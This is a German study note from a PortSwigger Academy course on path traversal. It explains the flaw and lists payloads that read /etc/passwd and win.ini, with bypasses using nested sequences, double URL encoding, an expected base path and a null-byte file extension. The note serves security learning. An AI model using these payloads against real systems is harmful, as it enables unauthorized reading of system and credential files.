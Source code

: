 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Was ist Path traversal

Auch bekannt als Directory Traversal. Mit der kann man im schlimmsten Fall Zugriff zu Files außerhalb des Webseiten-Bereichs erreichen und sogar das System oder die komplette App verändern.

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

z. B. eine Seite lädt ein Bild wie folgt.
```html
<img src="/loadImage?filename=218.png">
```

dann könnte man das wie folgt nutzen
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

Manchmal muss man die Pfade auch etwas anpassen. 
z. B.
`....//....//....//etc/passwd`
`etc/passwd`

##### Bypassing Sanatization

**Encoding**
Mit URL Encoding kann man den gewünschten Pfad auch wieder encoden um solche sanitizations zu bypassen
`..%252f..%252f..%252fetc/passwd`
oder auch als ganzes
`%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32fetc/passwd`
oder auch komplett inkl. etc/passwd encoden.

**Expected Base Pfad**
Manchmal kann es auch sein, dass ein Mechanismus verlangt, dass es mit einem bestimmten Base Pfad startet. Das sieht dann wie folgt aus.
z. B.
`/var/www/images`
dann setzen wir sowas wie.
`filename=/var/www/images/../../../etc/passwd`

> [!note] Tool-Tipp
> Hackvertor Extension verwenden zum encoden

![[path_traversal1.PNG|700]]
**Expected File Extension**
Ebenfalls gilt das für Dateiendungen. Es kann z. B. sein, dass nur `.png` verwendet werden darf. Dann baut man sowas wie:
`filename=../../../etc/passwd%00.png`
- `%00`: bedeutet Nullbyte also `\0` und bei vielen Low-Level C API's gilt das als Ende der Zeichenkette.
